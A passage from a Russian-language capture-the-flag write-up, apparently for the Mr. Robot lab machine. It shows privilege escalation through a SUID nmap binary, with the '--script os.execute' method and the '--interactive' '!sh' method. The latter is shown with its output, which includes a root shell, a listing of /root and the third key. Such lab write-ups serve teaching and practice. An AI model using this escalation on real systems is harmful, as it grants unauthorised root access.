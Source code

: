 Перехожу на `gtfobins`  
![privesc_nmap](screenshots/06.privesc_nmap.png)  

Привилегии с помощью `SUID` в `nmap` можно повысить, например, через режим `--interactive` или через `--script`

### --script
```bash
nmap --script="os.execute('/bin/sh')"
```
но на жертве установлена старая версия, не поддерживающая `--script`

### --interactive
```bash
robot@linux:/tmp$ nmap --interactive
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# whoami
root
# cd /root
# ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
